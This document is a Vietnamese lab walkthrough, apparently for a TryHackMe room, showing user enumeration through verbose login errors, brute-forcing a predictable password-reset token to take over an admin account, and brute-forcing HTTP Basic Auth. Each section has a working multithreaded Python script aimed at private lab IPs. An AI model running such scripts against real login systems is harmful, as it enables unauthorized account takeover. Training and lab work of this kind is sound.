# **Enumeration and BruteForce**

## **2. Enumerating Users via Verbose Errors**


Đề cho một form login và hỏi email nào hợp lệ trong hệ thống



Khi ta thử gửi một thông tin đăng nhập bất kì, ta nhận được thông báo như trên



Quan sát request trong Burp, ta thấy được nó đã gọi hàm `functions.php` để xử lí phần thông tin đăng nhập rồi trả về kết quả phù hợp hay không

### PoC
```python
import pickle
import base64
import requests, bs4
from concurrent.futures import ThreadPoolExecutor

url = 'http://10.48.174.244/labs/verbose_login/functions.php'
cookie = {
    'PHPSESSID': 'k94r15m3rp6odc9129o3099449'
}

def brute_force():
    with open(r'E:\TRYHACKME_MD\word_list\username-lists\usernames-top100\usernames_gmail.com.txt', 'r') as file:
        with ThreadPoolExecutor(max_workers=100) as excutor:
            for email in file:
                excutor.submit(brute_force_one_crend, email=email)

def brute_force_one_crend(email):
    data = {
        "username": email.strip(),
        "password": 'abg',
        "function": 'login'
    }

    response = requests.post(
        url=url,
        data=data,
        cookies=cookie
    )

    if '{"status":"error","message":"Email does not exist"}' not in response.text:
        print(f'[INVALID] {email.strip()}')

if __name__=='__main__':
    brute_force()
```

**Kết quả:** 



## **3. Expoiting Vulnerable Password Reset Logic**



Đề cho ta một form **Quên mật khẩu**, yêu cầu ta cần phải thực hiện đổi mật khẩu và truy cập vào người dùng `admin@admin.com`\
Và đề cũng cho ta một link mẫu của đổi mật khẩu là `http://10.48.174.244/labs/predictable_tokens/reset_password.php?token =XXX` với `XXX` là số có 3 chữ số khoảng từ 100 đến 200\



Khi ta nhập token bất kì, ta có thể thấy web trả về `Invalid token.`\
Vậy ta thực hiện vét cạn từ 100 đến 200





Sau khi thực hiện vét cạn ta được một mã OPT có độ dài response khác với những OPT khác\
Trong đó có chứa mật khẩu mới 

### PoC

```python
import pickle
import base64
import requests, bs4
from concurrent.futures import ThreadPoolExecutor, as_completed

url = 'http://10.48.181.74/labs/predictable_tokens/reset_password.php'
cookie = {
    'PHPSESSID': 'rqm8h824mq90dv1i4e0af77t6t'
}

def submit_email():
    data = {
        "email": 'admin@admin.com'
    }

    submit = requests.post(
        url='http://10.48.181.74/labs/predictable_tokens/forgot.php',
        data=data,
        cookies=cookie)

def brute_force():
    with ThreadPoolExecutor(max_workers=100) as excutor:
        futures=[]
        for opt in range(100, 201):
            excutor.submit(subscript, opt=opt)

def subscript(opt):
    parameters = {
        "token": opt
    }

    response = requests.get(url=url, params=parameters, cookies=cookie)
    if 'Invalid token.' not in response.text:
        print(f'OPT: {opt}')
        soup = bs4.BeautifulSoup(response.text, 'html.parser')
        password = soup.find_all('p', class_='succ')
        print(password[0].get_text(strip=True), password[1].get_text(strip=True), sep='\n')
        return (password[0].get_text(strip=True), True)
    else:
        return (None, False)


if __name__=='__main__':
    submit_email()
    brute_force()
```

**Kết quả**:


## **4. Exploiting HTTP Basic Authentication**


Đề cho ta một popup để đăng nhập, ta sẽ nhập thử một thông tin đăng nhập ngẫu nhiên và quan sát request



Ta thấy có header `Authorization:` và dùng phương thức `Basic` để xác thực, phương thức này mã hóa khối `user:password` qua Base64 rồi mới gửi lên server để xác thực bằng phương thức `GET`\
Ta biết được tài khoản của người dùng là `admin`, nhiệm vụ bây giờ là `brute-force` mật khẩu



Sau khi brute-force, ta thu được flag

### **PoC**
```python
import pickle
import base64
import requests, bs4
from concurrent.futures import ThreadPoolExecutor, as_completed


def main(url):
    with open (r'E:\TRYHACKME_MD\word_list\500_common_passwords.md', 'r') as file:
        with ThreadPoolExecutor(max_workers=100) as excutor:
            for password in file:
                excutor.submit(PoC, url=url, password=password.strip())
                # if password=='yellow':
                #     print(password)

def PoC(url, password):
    user_password = base64.b64encode(('admin:' + password).encode()).decode()
    header_value = "Basic " + user_password

    headers = {
        "Authorization": header_value
    }

    # print(headers)

    response = requests.get(
        url=url,
        headers=headers
    )

    if (response.status_code==200):
        print(response.text)


if __name__=='__main__':
    url = 'http://10.48.181.74/labs/basic_auth/'
    main(url)
```

**Kết quả**:


